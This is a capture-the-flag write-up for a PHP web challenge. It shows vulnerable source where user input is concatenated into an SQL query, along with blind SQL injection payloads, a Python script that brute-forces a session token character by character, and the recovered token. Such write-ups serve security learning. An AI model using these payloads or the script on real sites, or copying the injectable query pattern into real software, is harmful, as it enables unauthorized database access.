

# Beginner's Luck

Web, 989 points.

## Description

_Can you help me to win the flag ? I bet you can't .._

We were given a website along with its sourcecode \(PHP\).

## Solution

The site greets us with a page in which we can click on a "Generate" button. Everytime we click on it, a random token is generated, and the site says "Better luck next time!". We are given 10 attempts ; after those, the site says "Max Attempts Reached" and our session is reset.



Taking a look at the source, here is what we can read.

```markup
<form id="form" method="POST" action="" >

<input name="val" type="hidden" id="val">

</form>
<script type="text/javascript">

function generate_random_string(string_length){
    let random_string = '';
    let random_ascii;
    for(let i = 0; i < string_length; i++) {
        random_ascii = Math.floor((Math.random() * 25) + 97);
        random_string += String.fromCharCode(random_ascii)
    }
    return random_string
}

function generate()
{
    const input=document.getElementById("val");
    input.value=generate_random_string(100);
    document.getElementById("form").submit();
}
</script>
<div class="buttonHolder">
<input type="button" name="b1" value="Generate" onclick="generate()">
</div>
```

Every time we click on the button, our client generates the random 100-character token, and then sends it via POST. Our goal is to find the correct token.

Let's take a look at the source files we are given : [index.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/index.php), [play.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/play.php) and [reset.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/reset.php).

When we first connect to [index.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/index.php), our session is initialized and a random 100-character token is created for our session. We are not given the details of the generator function, though, but since they make our client generate random tokens on lowercase letters, we can infer the session token is the same. Right?

```php
if (!isset($_SESSION['count']))
{
    $_SESSION['count'] = 0;
    $pass = generateRandomToken(100);
    $ip = $_SERVER['REMOTE_ADDR'];
    $sql = "INSERT INTO users (ip, token) VALUES (?,?)";
    $stmt = $pdo->prepare($sql);
    $stmt->execute([$ip, $pass]);
}
```

A table `users` stores \(ip, token\) couples. Then in [play.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/play.php), when we send a token via POST :

```php
if (isset($_POST["val"]))
    {
    if ($_SESSION['count'] >= $max_count)
        {
        header("Location:reset.php");
        die();
        }

    $_SESSION['count']++;
    try
        {
        $sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
        $result = $conn->query($sql);
        if ($result)
            {
            $row = $result->fetch_assoc();
            }
          else
            {
            $row = false;
            }
        }

    catch(PDOException $e)
        {

        // echo $e;

        }

    if ($row)
        {
        echo "<h1>True</h1>";
        echo "<div><h4>Click <a href='flag.php'>here</a> and use the token to get your flag</h4></div>";
        }
      else
        {
        echo "<h4>Better luck next time !</h4>";
        }

    $currentValue = $_POST['val'];
    }
```

An SQL query checks if there exists an entry for our \(ip, token\). If there is, we are invited to input our token in a page called flag.php \(which is not present in the sources\), so that we can claim our flag.

The following line is prone to a very obvious SQL injection.

```php
$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
```

We don't know the exact output of the SQL request, so we cannot run a "UNION" type of SQL injection, but we do know whether it returns something or not. Indeed, when there exists such a couple \(ip, token\), the database returns at least a row and the site displays "True", "Click here and use the token to get your flag". Otherwise, it displays "Better luck next time". We can use this information to run a blind SQL injection.

Let's check by sending a pretty basic injection first in `$_POST['val']` :

```text
' OR '1'='1
```

The site returns "True". It worked! Let's try to run another injection :

```text
' OR (ip='our ip' AND length(token)=100) AND '1'='1
```

It works too: the token is 100 characters long. Good. Now we're able to write a small script that will brute-force each character individually thanks to the SUBSTRING function of MySQL.

There's an issue, though. Our session is reset and destroyed after 10 requests. We can't find a 100-character token with only 10 binary requests...

Our solution was to use two different IPs with a teammate. One person would be running the injection, but looking for the token associated to the other person's IP. Making sure that other person kept their session alive, they could then submit the token without increasing the number of attempts at all.

Our payload looks like this :

```text
' OR (ip='teammate IP' AND substring(token,[i],1)='[c]') AND '1'='1
```

Where i is between 1 and 100, and c in the lowercase letters charset. Except it was not the case. We ran the injection once and found many characters in the token that were actually not letters. We then ran the injection again with lowercase letters + digits, and it worked. Those bastards had fooled us with that javascript generator! :D

Here is the exploit in Python.

```python
import requests

url = "https://web4.ctfsecurinets.com/play.php"

injection = "' OR (ip='teammate IP' AND substring(token,%s,1)='%s') AND '1'='1"
token = ''

for i in range(1, 101):
  for b in 'abcdefghijklmnopqrstuvwxyz0123456789':
    # Resetting the session and requesting a new one, just in case.
    # The exploit would have been faster by removing this.
    requests.get(url.replace('play', 'reset'))
    s = requests.session()
    s.get(url.replace('play', 'index'))
    c = s.post(url, data={'val': injection % (i, b)}).content
    if b'>True<' in c:
      token += b
      print(i, token)
      break
```

And we get our friend's token, for instance, `qx9tiuvxniog4qfkulftatkvysgiosw4qwppqcevks1f98hujnejxp6w8dvnvsjdfytw0xicha9h9g1it7simo4lrryea99gys2q`.

Input it in flag.php and get the flag. Enjoy!

Note: the exploit could have been much faster if we tested bits in the token instead of looping through a charset. Since there are 36 characters, which is approximately 5 bits, we could have been able to retrieve a character using only 6 requests instead of 36 worst case scenario. The payload would have been more complicated though, running some conversions and stuff.

